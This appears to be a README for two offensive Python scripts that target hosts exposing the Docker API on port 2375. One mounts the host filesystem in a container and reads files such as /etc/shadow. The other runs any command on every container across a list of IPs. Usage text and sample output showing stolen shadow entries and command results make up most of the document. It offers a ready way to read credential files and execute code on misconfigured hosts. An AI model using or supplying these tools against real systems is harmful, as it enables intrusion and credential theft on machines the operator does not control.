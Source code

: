 # Docker Host File Read (docker_host_fs.py):
This script creates a container with the hosts FS mounted, to read files provided in a list of IPs which have the Docker API exposed.

optional arguments:

```
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Set port (default: 2375)
  -c CMD, --cmd CMD     Text File with list of files to be read.Example : 
                        	/etc/shadow
                        	/etc/issue.net
```

required named arguments:

```
  -i IP_FILE, --ip_file IP_FILE
                        File with new line seperated IPs
```

Example Usage :
```
$ python3 docker_host_fs.py -i ips 
Host : 10.0.0.1:2375
Output of /host/etc/issue.net /host/etc/shadow:
Ubuntu 18.04.4 LTS
root:!:18216:0:99999:7:::
daemon:*:18113:0:99999:7:::
bin:*:18113:0:99999:7:::

###################################################
Host : 10.0.0.2:2375
Output of /host/etc/issue.net /host/etc/shadow:
Ubuntu 18.04.4 LTS
root:!:18216:0:99999:7:::
daemon:*:18113:0:99999:7:::
bin:*:18113:0:99999:7:::
...

###################################################
```

# Docker Container Command Execution (docker_cont_exec.py):
This script runs a command on every container running in the list of IPs provided which have the Docker API exposed.

optional arguments:

```
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Set port (default: 2375)
  -c CMD, --cmd CMD     Command to be executed (default: whoami)
```

required named arguments:
```
  -i IP_FILE, --ip_file IP_FILE
                        File with new line seperated IPs
```

Example Usage :
```
$ python3 docker_cont_exec.py -i ips -c "uname -a"
Host : 127.0.0.1:2375
Container Name : gallant_wilbur
Container Image : simpleserver:latest
Output of uname -a:
Linux 3013bbd4be2a 5.3.0-59-generic #53~18.04.1-Ubuntu SMP Thu Jun 4 14:58:26 UTC 2019 x86_64 GNU/Linux

Container Name : clever_davinci
Container Image : simpleserver:latest
Output of uname -a:
Linux 6557de217970 5.3.0-59-generic #53~18.04.1-Ubuntu SMP Thu Jun 4 14:58:26 UTC 2019 x86_64 GNU/Linux

###################################################
Host : 127.0.0.2:2375
Container Name : brilliant_veg
Container Image : simpleserver:latest
Output of uname -a:
Linux 3013bbd4be2a 5.3.0-59-generic #53~18.04.1-Ubuntu SMP Thu Jun 4 14:58:26 UTC 2019 x86_64 GNU/Linux

Container Name : epic_veg
Container Image : simpleserver:latest
Output of uname -a:
Linux 6557de217970 5.3.0-59-generic #53~18.04.1-Ubuntu SMP Thu Jun 4 14:58:26 UTC 2019 x86_64 GNU/Linux

###################################################
```
